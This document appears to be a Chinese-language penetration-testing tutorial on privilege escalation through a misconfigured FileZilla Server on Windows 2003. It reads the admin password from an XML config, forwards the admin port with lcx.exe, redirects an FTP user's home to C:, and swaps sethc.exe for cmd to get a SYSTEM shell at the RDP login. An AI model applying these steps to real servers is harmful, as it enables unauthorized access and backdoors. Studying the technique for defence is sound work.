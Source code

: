 ## 1、 简介

FileZilla 是一个ftp服务器， 假如配置不严的，读取xml密码 可以执行一些简答的命令

默认安装目录

C:\Program Files\FileZilla Server\

![image-20210501203735299](../../acess/image-20210501203735299.png) 

## 2、 提权

FileZilla Server Interface.xml  

```xml
FileZilla Server Interface.xml   
<FileZillaServer>
    <Settings>
        <Item name="Last Server Address" type="string">127.0.0.1</Item>
        <Item name="Last Server Port" type="numeric">14147</Item>
        <Item name="Last Server Password" type="string">123456</Item>
        <Item name="Always use last server" type="numeric">1</Item>
    </Settings>
</FileZillaServer>
```

本地ip 127.0.0.1 端口 14147 密码 123456

进行端口的转发

```
/c C:\RECYCLER\lcx.exe -tran 14148 127.0.0.1 14147
```

![image-20210501203640550](../../acess/image-20210501203640550.png) 

本地用同样版本的filezila server 是链接14148  端口

![image-20210501211532371](../../acess/image-20210501211532371.png)

 ftp的用户密码在

![image-20210501204150647](../../acess/image-20210501204150647.png) 

 可以通过修改配置文件 或者修改这里的用户密码

![image-20210501204254396](../../acess/image-20210501204254396.png) 

因为在2003系统 这个ftp服务器是以系统权限启动的，那么可以修改默认的位置 比如修改c盘

![image-20210501204335791](../../acess/image-20210501204335791.png) 

 用账号 moonsec密码123456 登录ftp就会登录到c盘 

![image-20210501204452260](../../acess/image-20210501204452260.png) 

 那么可以用cmd改名替换C:\Windows\System32\sethc.exe 在连登录远程服务器的时候 在登录框 按五次shit键 就会弹出cms终端 那么就可以运行其他命令

![image-20210501210342722](../../acess/image-20210501210342722.png) 

 